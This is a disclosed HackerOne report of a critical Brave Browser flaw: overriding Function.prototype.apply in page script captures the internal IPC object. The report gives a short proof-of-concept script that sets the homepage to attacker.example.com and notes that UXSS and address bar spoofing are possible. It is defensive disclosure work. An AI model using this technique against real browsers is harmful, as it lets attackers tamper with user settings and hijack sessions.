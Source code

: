 # Sending arbitrary IPC messages via overriding Function.prototype.apply

## Report Details
- **Report ID**: 188086
- **URL**: https://hackerone.com/reports/188086
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2016-12-03T21:36:17.831Z
- **Disclosed**: 2018-09-18T18:15:50.065Z

## Reporter
- **Username**: masatokinugawa
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: brave

## Vulnerability Information
## Summary:
Brave Browser allows to overwrite the internal js code from the user js code.
Using this behavior, an attacker can send arbitrary IPC messages and do UXSS, address bar spoofing, changing browser settings and so on. This bug is similar to #187542.

## Tested on: 
Brave	0.12.11

## Steps To Reproduce:
1. Go to this page: https://vulnerabledoma.in/brave/settings_change2.html 
```
<script>
Function.prototype.apply=function(ipc){
    ipc.send("dispatch-action",'{"actionType":"app-change-setting","key":"general.homepage","value":"http://attacker.example.com/"}');
}
</script>
<div style="visibility:hidden">
<embed src=".swf"></embed>
</div>
```

2. See `about:preferences`. You can confirm that your home page is changed to `http://attacker.example.com/`.

Also an attacker can do UXSS and address bar spoofing using this bug. Please see #187542's PoC .

#Technical Details

This `apply` in the `ipc_utils.js` is overwritten: 
```
  ipcRenderer.emit = function () {
    arguments[1].sender = ipcRenderer
    return EventEmitter.prototype.emit.apply(ipcRenderer, arguments)
  }
  atom.v8.setHiddenValue('ipc', ipcRenderer)
}
```
And the 1st arguments leaks IPC method.

Could you confirm this bug?
Thanks!

## Attachments
No attachments
